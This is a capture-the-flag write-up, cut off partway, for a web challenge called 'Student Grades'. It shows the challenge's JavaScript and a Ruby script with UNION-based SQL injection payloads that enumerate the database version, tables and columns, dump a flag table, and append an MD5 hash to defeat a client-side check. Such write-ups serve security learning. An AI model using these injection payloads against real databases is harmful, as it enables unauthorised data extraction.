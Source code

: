 Student Grades was the first web challenge offering 50 points to earn exploiting a simple SQL injection. It has an input mask where you can type in a name. If it exists in the database it returns the name and grade of this person as response. The query is done through JavaScript. The code gives us everything we want to know:

{% highlight JavaScript %}
document.getElementById('submit').addEventListener('cli    ck',
    function(event){
        event.preventDefault();
        var input = document.getElementById('info');
        //var query = 'SELECT * from Names where name=\'' + input.value + '\'';
        var inp_str = input.value;
        inp_str = inp_str.replace(/\W+/g, " ");
        var md5_str = md5(inp_str);
        var send_str = inp_str+' '+md5_str;
        var post_data = {name: send_str, submit:1};
        $.ajax({
            type: "POST",
            url: "/postQuery.php",
            data: post_data,
            success: function(data){document.getElementById('results').innerHTML=data;}
        });
    }
);
{% endhighlight %}

The rookie hint in line 5 tells us how the SQL query is structured. Now we need to break out of it and query what we want, instead of what the website gives us. Reading the source a little further you'll see that all non-word characters are stripped out in line 7. The next line is more annoying since you see the input is hashed with MD5 digest and appended to the parameters. Burp Suite got Hashing-features built in into its Decoder recently but in this case it's a pain to copy&paste on every try. Hence I decided to automate this in a very early stage. The following script shows the final SQL query I used to get flag out of the "tuctf_info" table and how I got there:

    #!/usr/bin/env ruby
    require 'digest' 
    require 'net/http'
    # sqli = "xxx%' UNION ALL SELECT NULL,VERSION() UNION ALL SELECT * FROM tuctf_grades WHERE name LIKE '%xxx"
    # sqli = "xxx%' UNION ALL SELECT NULL,table_name FROM INFORMATION_SCHEMA.TABLES UNION ALL SELECT * FROM tuctf_grades WHERE name LIKE '%xxx"
    #sqli = "xxxx%' UNION ALL SELECT NULL,COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='tuctf_info' UNION ALL SELECT * FROM tuctf_grades WHERE name LIKE '%xxxx"
    sqli = "xxx%' UNION ALL SELECT * FROM tuctf_info UNION ALL SELECT * FROM tuctf_grades WHERE name LIKE '%xxx"
    
    md5 = Digest::MD5.hexdigest(sqli)             # hash input
    payload = sqli.gsub(' ', '+') + "+" + md5     # and append it to the end 
    